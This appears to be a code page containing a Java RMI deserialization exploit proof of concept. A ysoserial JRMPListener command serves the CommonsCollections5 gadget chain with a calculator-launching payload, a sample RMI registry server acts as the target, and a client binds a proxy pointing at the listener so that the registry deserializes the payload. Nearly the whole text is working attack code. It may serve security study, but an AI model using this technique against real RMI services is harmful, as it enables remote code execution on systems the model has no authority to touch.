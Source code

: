 ```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 3333 CommonsCollections5 "open -a Calculator"

```

UserServer.java

```
package test;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class UserServer {
    public static void main(String[] args) throws Exception{
        Registry registry = LocateRegistry.createRegistry(2222);
        User user = new UserImpl();
        registry.rebind("HelloRegistry", user);
        System.out.println("rmi start at 2222");
    }
}


```

TestClient.java

```
import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;

import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Proxy;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.ObjID;
import java.rmi.server.RemoteObjectInvocationHandler;
import java.util.Random;

public class TestClient {
    public static void main(String[] args) throws RemoteException, IllegalAccessException, InvocationTargetException, InstantiationException, ClassNotFoundException, NoSuchMethodException, AlreadyBoundException {
        Registry reg = LocateRegistry.getRegistry("localhost",2222); // rmi start at 2222
        ObjID id = new ObjID(new Random().nextInt());
        TCPEndpoint te = new TCPEndpoint("127.0.0.1", 3333); // JRMPListener's port is 3333
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
        Registry proxy = (Registry) Proxy.newProxyInstance(TestClient.class.getClassLoader(), new Class[] {
                Registry.class
        }, obj);
        reg.bind("Hello",proxy);
    }
}


```
